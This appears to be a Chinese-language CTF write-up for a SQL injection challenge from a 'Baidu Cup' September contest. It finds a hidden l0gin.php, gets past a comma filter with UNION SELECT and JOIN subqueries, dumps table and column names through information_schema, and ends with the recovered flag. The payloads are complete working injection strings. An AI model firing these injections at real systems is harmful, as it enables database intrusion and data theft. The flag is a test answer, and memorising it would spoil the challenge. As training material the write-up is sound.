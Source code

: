 # SQL

## 题目描述
---
```
后台有获取flag的线索 
```

## 题目来源
---
“百度杯”CTF比赛 九月场

## 主要知识点
---
SQL 注入绕过

## 题目分值
---
50

## 部署方式
---


## 解题思路
---

在页面注释中发现`login.php`，一通测试后什么都没有

![](images/2021-06-09-21-15-18.png)

再次关注包内容，在`index.php`，发现中间多一次跳转，在`header`中给出了一个页面`l0gin.php`

![](images/2021-06-09-21-35-17.png)

`1' order by 3 %23` 测试到有两个字段

![](images/2021-06-09-21-56-23.png)

继续测试时发现本题目会将`,`后的内容截断，测试`1' order by 1,2 -`内容时，`2 =`内容不见了。

![](images/2021-06-09-21-58-00.png)

可以使用`join`来绕过`,`的过滤，如使用`-1' union select * from (select 1) a join (select user() ) b %23`

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select user() ) b %23
```

![](images/2021-06-09-21-59-37.png)

剩下的就是标准的做法了

列出表名  select group_concat(distinct table_name) from information_schema.tables where table_schema=database()

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select group_concat(distinct table_name) from information_schema.tables where table_schema=database() ) b %23
```

![](images/2021-06-09-22-03-27.png)

列出列名  select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='users'

表 users

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select group_concat(distinct column_name) from information_schema.columns where table_schema=database() and table_name='users') b %23
```

![](images/2021-06-09-22-03-10.png)

字段 id,username,flag_9c861b688330

列出数据 select group_concat(flag_9c861b688330) from users

```
http://780ab3633a2349dcb60dfe156c7af8787f367acbc74648cf.changame.ichunqiu.com/l0gin.php?id=-1' union select * from (select 1) a join (select group_concat(flag_9c861b688330) from users) b %23
```

![](images/2021-06-09-22-06-20.png)

flag{faccb38c-48e0-4fec-97de-7abf9a836041}

## 参考
---
